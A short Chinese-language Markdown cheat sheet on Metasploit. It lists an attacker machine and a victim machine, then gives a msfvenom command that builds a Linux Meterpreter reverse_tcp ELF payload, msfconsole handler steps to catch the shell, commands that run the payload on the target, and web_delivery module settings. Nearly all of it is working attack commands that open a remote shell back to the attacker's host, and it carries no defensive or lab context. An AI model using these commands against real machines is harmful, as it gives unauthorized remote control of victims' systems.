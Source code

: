 ## msf簇

---

- 攻击机 192.168.31.2
- 被攻击机 192.168.31.56

---

- msfvenom

  - 制作可执行文件

  ```shell
  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=6666 -f elf > ubuntu.elf
  ```

  - msfconsole 进行运行，机器就可以上线

  ```shell
  msfconsole
  use exploit/multi/handler
  set payload linux/x64/meterpreter/reverse_tcp 
  set lhost 192.168.31.2
  set lport 6666
  run
  
  chmod +x ubuntu.elf
  ./ubuntu.elf 
  ```

- web_delivery--msfconsole
  ```shell
  use exploit/multi/script/web_delivery
  show targets
  set target 6　　 　　　　　　　　　　　　　　　　#Linux
  show payloads
  set payload 7　　　　　　　　　　　　　　　　　　#linux/x64/meterpreter/reverse_tcp
  set lhost 192.168.31.2
  run
  ```

  